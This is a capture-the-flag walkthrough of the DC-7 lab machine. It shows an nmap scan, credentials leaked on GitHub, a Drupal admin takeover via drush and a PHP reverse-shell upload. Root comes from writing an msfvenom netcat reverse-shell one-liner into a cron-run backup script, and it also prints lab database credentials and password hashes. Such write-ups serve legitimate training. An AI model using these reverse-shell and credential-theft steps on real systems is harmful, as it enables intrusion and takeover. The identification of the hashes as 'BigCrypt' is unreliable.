 # DC: 7

### Nmap Scan

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:02:e9:c7:5d:95:32:ab:10:99:89:84:34:3d:1e:f9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5g/MV8SKReCc0Gw4yd38cdGBhSqaTIJMLAnLw9JBrzA78gPe+oE2rRjcGXwlCmHXE+rifBo/Sfevqn9oZr3Q4Yw8Z4UdGX6vVRJdJC85
|   256 d0:d6:40:35:a7:34:a9:0a:79:34:ee:a9:6a:dd:f4:8f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGLAcHcmt/EqgpHTXiRYUz1jpyaUPhH7vWGjI3TaWgiCLS2yPkybhc23zlAVOe+ONWbfODzl2kvYqYWVpL8LLpw=
|   256 a8:55:d5:76:93:ed:4f:6f:f1:f7:a1:84:2f:af:bb:e1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGHn1jYZNKIRzAqAeRJNZ9nsACR/xXaQSryHGEjSsQfQ

80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 22 disallowed entries 
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
| /index.php/comment/reply/ /index.php/filter/tips /index.php/node/add/ 
| /index.php/search/ /index.php/user/password/ /index.php/user/register/ 
|_/index.php/user/login/ /index.php/user/logout/
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 8 (https://www.drupal.org)
|_http-title: Welcome to DC-7 | D7
| http-methods: 
|_  Supported Methods: GET POST HEAD OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
```

---

### Website

![website.png](./Images/website.png)

---

### OSINT → **@DC7USER**

- There is a hint on the index page `think "outside" the box.`
- After lot of research, find something interesting.
- There is a github account for user @dc7user

![credentials.png](./Images/credentials.png)

```
username = dc7user
password = MdR3xOgB7#dW
```

---

### SSH Login

- we can login SSH using above credentials.

![ssh.png](./Images/ssh-login.png)

---

### SSH Explore

- After successfully login SSH we can see `backup` & `mbox`

![ex.png](./Images/ex.png)

- There is a interesting script
- A script that creates a backup archive and encrypts it every 15 minutes.
    - `/opt/script/backup.sh`

![backup.png](./Images/backup.png)

---

### **Drush Explore**

- Here we can see they use `drush`
    - drush → also know as Drupal Shell
- After searching a lot we find a way to set a password for a user.

![drupal-pass.png](./Images/drupal-pass.png)

```bash
## set the new password for user admin 
drush user:password admin --password pass1
```

![success-admin-login.png](./Images/success-admin.png)

---

### Privilege Escalation

- After login as a admin we can add modules to get a reverse shell.
- To do this we need a project
- `https://www.drupal.org/project/php/releases/8.x-1.0`
- Download this php-project
    - first we need the `.tar.gz` file and upload
    
    ![drupal-project.png](./Images/drupal-project.png)
    
    - Go to →  `Extend` then→ `Install new module`
    
    ![extend.png](./Images/extend.png)
    
    - Next scroll down page and enable → `Filters` → `PHP Filter`
    
    ![enable-php.png](./Images/enable-php.png)
    
    - Last go to → `http://Ip/node/add/page`
    - Create a page and Upload PHP Reverse Shell
    - you can use **`https://github.com/pentestmonkey/php-reverse-shell`**
    
    ![upload-php-payload.png](./Images/upload-php-payload.png)
    
    - Make sure you change the → `Text format` to `PHP code`
    - Make sure your netcat is listening.
    
    ![netcat.png](./Images/netcat.png)
    

- Now we need a root access to get that.
    - we know that `backups.sh` has a write permission and it executes file every 15 times regularly.
    - so need a reverse payload to get a root access
    
    ```bash
    msfvenom -p cmd/unix/reverse_netcat lhost=<yout_IP> lport=8080 R
    ```
    
    ![root-payload1.png](./Images/root-payload1.png)
    
    - The payload is ready we need to insert this payload in `backups.sh` file
    
    ```bash
    ## Save this into /opt/scripts/backups.sh
    mkfifo /tmp/eukxkf; nc 192.168.163.65 8080 0</tmp/eukxkf | /bin/sh >/tmp/eukxkf 2>&1; rm /tmp/eukxkf
    ```
    
    ![payload.png](./Images/payload.png)
    
    - Make sure your netcat is listening
    - **Note: It Might Take Few Minutes To Work.**
    
- And Finally We Are Root

![root.png](./Images/root.png)

- Read the root flag

![root-flag.png](./Images/root-flag.png)

---

## IMP NOTES

<aside>
💡

### This machine may contain a rabbit hole—perhaps none at all, or just a long path to access the system.

</aside>

- Run `linpeas.sh` to get a more information about the system.
- and we find out there is a `mysql`
    - `/var/www/html/sites/default/settings.php`  → find mysql creds

```
username = db7user
password = yNv3Po00
host' = localhost
```

```bash
mysql -u 'db7user' -p -h 'localhost'
```

![sql-success.png](./Images/sql-success.png)

- username & password

```
admin:$S$Ead.KmIcT/yfKC.1H53aDPJasaD7o.ioEGiaPy1lLyXXAJC/Qi4F
dc7user:$S$EKe0kuKQvFhgFnEYMpq.mRtbl/TQ5FmEjCDxbu0HIHaO0/U.YFjI
```

- Possible the used hash is → `BigCrypt, JtR: bigcrypt`

![know-hash.png](./Images/know-hash.png)

- Try John-The-Ripper to crack the password
- Also this process make take lot of time to crack the password
- Or there is no grantee that works.